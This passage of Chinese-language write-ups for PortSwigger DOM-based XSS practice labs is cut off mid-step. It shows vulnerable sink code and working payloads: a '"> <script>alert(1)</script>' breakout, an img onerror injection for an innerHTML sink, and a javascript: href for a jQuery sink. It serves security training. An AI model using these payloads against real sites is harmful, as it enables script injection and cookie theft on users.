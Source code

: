To solve this lab, perform a cross-site scripting attack that calls the alert function. 
### 題目解釋

### 解答
觀察原始碼可以發現

```javascript
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
```

這邊有一個 tracking，會塞到 img src 裡面，所以我可以先用 `">` 把它閉合再 XSS

在搜尋輸入
```
"> <script>alert(1)</script>
```


## [Lab: DOM XSS in innerHTML sink using source location.search](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)
### 題目敘述
 This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.

To solve this lab, perform a cross-site scripting attack that calls the alert function. 
### 題目解釋
題目說是 DOM-based 在 innderHTML 裡面

### 解答
搜尋列寫
```html
<img src='' onerror="alert(1)">
```


## [Lab: DOM XSS in jQuery anchor href attribute sink using location.search source](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink)
### 題目敘述
 This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's $ selector function to find an anchor element, and changes its href attribute using data from location.search.

To solve this lab, make the "back" link alert document.cookie. 
### 題目解釋
Href 除了跳轉路徑之外，也可以塞 `javascript:alert(1)`
### 解答
先隨便點到一篇文底下，例如
